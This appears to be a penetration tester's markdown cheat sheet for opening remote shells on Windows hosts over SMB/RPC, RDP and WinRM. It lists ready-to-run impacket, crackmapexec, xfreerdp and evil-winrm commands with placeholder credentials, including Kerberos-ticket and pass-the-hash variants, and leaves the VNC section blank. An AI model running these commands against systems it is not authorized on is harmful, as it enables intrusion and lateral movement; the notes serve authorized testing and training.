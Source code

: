 # Remote Shell
## SMB & RPC: 445, 135
`impacket-psexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`impacket-smbexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`impacket-wmiexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`KRB5CCNAME='<CCACHE>' python3 ~/Desktop/OPSEC/tools/impacket/examples/smbexec.py -k -no-pass <DOMAIN>/<USER>@<TARGET>`

## RDP: 3389
`impacket-rdp_check '<DOMAIN>/<USER>:<PASS>@<IP>'` check
 `xfreerdp /v:<IP> /u:DOMAIN\<USER> /p:<PASS> /dynamic-resolution /drive:share,/tmp`
 /cert:ignore
 +clipboard
`remmina`

## WinRM: 5985, 5986
`crackmapexec winrm <IP> -u <USER> -p <PASS>` check
`evil-winrm -i <IP> -u <USER> -p <PASS>` (PtH)

## VNC
??